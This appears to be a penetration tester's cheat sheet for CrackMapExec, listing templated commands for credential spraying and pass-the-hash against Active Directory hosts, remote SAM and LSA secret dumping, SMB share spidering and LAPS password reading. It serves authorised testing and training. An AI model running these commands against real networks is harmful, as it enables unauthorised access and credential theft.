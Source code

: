 # [crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec)

> "A swiss army knife for pentesting networks." Especially useful for Active Directory environments.

---

## General Syntax: Pass a credential(s) to a target(s) to check for access

- `$MODULE`
	- `smb`
		- Useful for determining if a credential is valid
		- if `Pwned`, then the credential grants write access to `C$`
	- `winrm`
		- Even if a credential is valid, if that user doesn't have WinRM access, this will deny access
	- `mssql`
	- `ldap`
	- `ssh`
	- Not yet implemented: `rdp`
		- Even if a user doesn't have `smb` access, they may still have local `rdp` access. Unfortunately this isn't implemented yet, so you'll have to try it manually
- `$TARGET`
	  - Hostname
	  - IP address
	  - CIDR range
- `$DOMAIN`
	  - Active Directory domain name
- `$USERNAME`
	  - Single username
	  - File of usernames, one per line
- `$PASSWORD`
	  - Single password
	  - File of passwords, one per line

```bash
crackmapexec $MODULE $TARGET [-d $DOMAIN || --local-auth] -u $USERNAME -p $PASSWORD
```

- A successful credential pair will be highlighted in **green**
- A successful credential pair that also has remote access will be highlighted in **green** and designated ***Pwned***

---

## Remotely dump SAM hashes

```bash
crackmapexec smb $TARGET [-d $DOMAIN] -u $USERNAME -p $PASSWORD [--local-auth] --sam
```

---

## Remotely dump LSA secrets

```bash
cme smb $TARGET [-d $DOMAIN] -u $USERNAME -p $PASSWORD [--local-auth] --lsa
```

---

## List SMB Shares

```bash
crackmapexec smb $TARGET [-d $DOMAIN] -u $USERNAME [-p $PASSWORD || -H $NTLMHASH] --shares
```

---

## Spider SMB Shares

Spider an SMB share and write the resulting file listings in JSON to an attacker-local file.

```bash
crackmapexec smb $TARGET [-d $DOMAIN] -u $USERNAME [-p $PASSWORD || -H $NTLMHASH] -M spider_plus
```

Filter the results with `jq`!

```bash
cat /tmp/cme_spider_plus | jq
```

---

## Attempt to Read LAPS Passwords

See [[local-administrator-password-solution|LAPS]] for more information.

`$DOMAIN\$USERNAME`:`$PASSWORD` must be capable of reading at least one LAPS password on `$DOMAIN`.

```bash
crackmapexec ldap $TARGET -d $DOMAIN -u $USERNAME [-p $PASSWORD || -H $NTLMHASH] [--kdcHost $DC_FQDN_OR_IP] -M laps
```
